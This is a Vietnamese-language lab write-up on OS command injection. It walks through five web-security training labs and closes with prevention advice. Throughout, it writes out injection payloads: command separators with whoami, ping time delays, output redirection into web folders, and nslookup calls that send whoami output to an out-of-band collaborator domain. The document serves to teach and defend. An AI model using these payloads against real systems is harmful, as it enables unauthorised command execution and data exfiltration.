OS Command Injection là gì?
- Còn gọi là Shell Injection.
- Cho phép kẻ tấn công thực thi lệnh hệ điều hành trên máy chủ chạy ứng dụng.
- Thường dẫn đến chiếm quyền ứng dụng và truy cập dữ liệu.
- Có thể mở rộng tấn công sang các hệ thống khác trong cùng hạ tầng.
- Lợi dụng mối quan hệ tin cậy để di chuyển ngang sang các máy khác trong tổ chức.

Injecting OS Command Injection

VD: Ứng dụng cho phép xem tình trạng tồn kho qua URL: productID và storeID được gửi lên server.

Server xử lý bằng cách gọi lệnh hệ thống: stockreport.pl 381 29. Lệnh này trả về trạng thái kho hàng cho người dùng.

Lỗ hổng xảy ra
- Ứng dụng không kiểm tra đầu vào
- Attacker chèn thêm lệnh OS vào tham số.
- Ví dụ payload: `& echo aiwefwlguh &`
- Khi chèn vào productID, lệnh thực thi trở thành: `stockreport.pl & echo aiwefwlguh & 29`

Kết quả thực thi:
- stockreport.pl chạy sai vì thiếu tham số → báo lỗi.
- echo aiwefwlguh được thực thi → in ra chuỗi test.
- 29 bị hiểu như một lệnh → gây lỗi.

Kỹ thuật quan trọng:
- & là command separator trong shell: Cho phép tách nhiều lệnh trong cùng một dòng.
- Thêm & giúp:
    - Cô lập lệnh injected.
    - Tránh bị ảnh hưởng bởi phần còn lại của câu lệnh gốc.

Lab 1: OS command injection, simple case



Tiến hành bắt request check stock và gửi đến Repeater



Thực hiện sửa phần productId thành `1; whoami` và gửi request này ta thu được người dùng hiện tại và giải quyết bài lab thành công




Blind OS command injection là gì?

Blind OS Command Injection là trường hợp ứng dụng có thực thi lệnh, nhưng không trả kết quả của lệnh về trong HTTP Response.

Vì vậy không thể dùng whoami, id, cat /etc/passwd rồi xem kết quả ngay trên trình duyệt.

Để biết lệnh có chạy không, sử dụng phương pháp tạo độ trễ `& ping -c 10 127.0.0.1 &` trong đó (-c 10 là gửi 10 lần ~ 10s, 127.0.0.1 là ping máy chủ)

Tư duy: Có output -> dùng whoami, id. Không output dùng time delay

Lưu ý: Trong thực tế, ký tự dùng để "break command" còn phụ thuộc vào cách ứng dụng ghép lệnh. Có thể là ;, &&, ||, | hoặc &

Lab 2: Blind OS command injection with time delays



Thực hiện điền thông tin trong form feedback, bắt request này gửi đến Repeater



Thực hiện thử chèn payload `||ping -c 10 127.0.0.1 ||` vào từng vị trí thông tin điền tương ứng, tìm được tại vị trí điền email sẽ delay nếu chèn payload



Bài lab đã được solve



Khai thác Blind OS Command Injection bằng cách ghi output vào file

Ý tưởng: Không xem được kết quả trực tiếp ⇒ ghi kết quả vào một file rồi mở file đó bằng trình duyệt.

Payload: `& whoami > /var/www/static/whoami.txt &`

Ý nghĩa:
- whoami → lấy tên user đang chạy.
- > → ghi kết quả vào file.
- /var/www/static/whoami.txt → lưu file trong thư mục web có thể truy cập.

Sau đó mở `https://vulnerable-website.com/whoami.txt` nếu thấy www-data thì thành công

Lab 3: Blind OS command injection with output redirection



Thực hiện chèn payload `||whoami > /var/www/images/whoami.txt||` vào vị trí email thành công truy cập vào đường dẫn `/image?filename=whoami.txt` để đọc thông tin



Bài lab được hoàn thành



Khai thác Blind OS Command Injection bằng OAST (Out-of-Band)

Dùng khi:
- Không có output trả về.
- Không ghi được file.
- Không tạo được time delay.
- Nhưng server được phép kết nối ra Internet.

Ý tưởng: Thay vì bắt server hiển thị kết quả, ta bắt server chủ động kết nối đến máy của người dùng. Nếu nhận được kết nối đó ⇒ chứng minh lệnh đã được thực thi.

VD: Payload `& nslookup kgji2ohoyw.web-attacker.com &`

nslookup: Lệnh dùng để tra cứu DNS.

Lab 4: Blind OS command injection with out-of-band interaction



Vào burp collaborator copy tên miền thực hiện chèn payload `||nslookup zbedffr4dzzk4thh0qcsesh21t7kvej3.oastify.com||` vào phần email



Các kết nối đến tên miền:



Bài lab được hoàn thành



OAST: không chỉ xác nhận lệnh chạy, mà còn lấy luôn kết quả của lệnh

Ý tưởng: Thay vì `OAST: không chỉ xác nhận lệnh chạy, mà còn lấy luôn kết quả của lệnh` ta dùng `nslookup `whoami`.abc.oastify.com`

Dấu `` có ý nghĩa chạy lệnh whoami trước, rồi lấy kết quả thay vào đó.

VD: whoami trả về www-data thì lệnh thực tế là nslookup www-data.abc.oastify.com

Lab 5: Blind OS command injection with out-of-band data exfiltration



Thực hiện thao tác chức năng feedback rồi bắt request này gửi đến Repeater, thực hiện chèn payload `||nslookup `whoami`.zpsdtf54rzdkitvheqqsssv2ftlk9fx4.oastify.com||` vào vị trí email 



Kiểm tra các kết nối đến tên miền trên trong Collaborator



Submit kết quả để solve bài lab



Các cách chèn OS Command

Ký tự nối lệnh: Dùng để chèn thêm một lệnh mới.
- & → Chạy lệnh tiếp theo.
- && → Chỉ chạy lệnh sau nếu lệnh trước thành công.
- | → Chuyển output lệnh trước thành input lệnh sau (pipe).
- || → Chỉ chạy lệnh sau nếu lệnh trước thất bại.

Chỉ dùng trên Linux/Unix
- ; → Chạy lệnh tiếp theo.
- \n (Newline) → Xuống dòng cũng có thể tách thành lệnh mới.

Thực thi lệnh bên trong lệnh khác (Chỉ có trên Linux.)
- `command` → Chạy command trước rồi thay kết quả vào.
- $(command) → Giống backticks nhưng hiện đại và dễ dùng hơn.

Khi input nằm trong dấu ngoặc kép, phải thoát khỏi dấu ngoặc trước

Cách phòng chống OS Command Injection

Không gọi OS Command nếu không cần
- Thay vì dùng lệnh hệ điều hành, hãy dùng API hoặc thư viện của ngôn ngữ lập trình. Nguyên tắc: Không gọi shell ⇒ Không có OS Command Injection.

Nếu bắt buộc phải gọi OS Command, phải kiểm tra đầu vào thật chặt. VD:
- Chỉ cho phép các giá trị nằm trong whitelist.
- Kiểm tra đầu vào phải là số.
- Chỉ cho phép chữ và số, không cho ký tự đặc biệt hay khoảng trắng.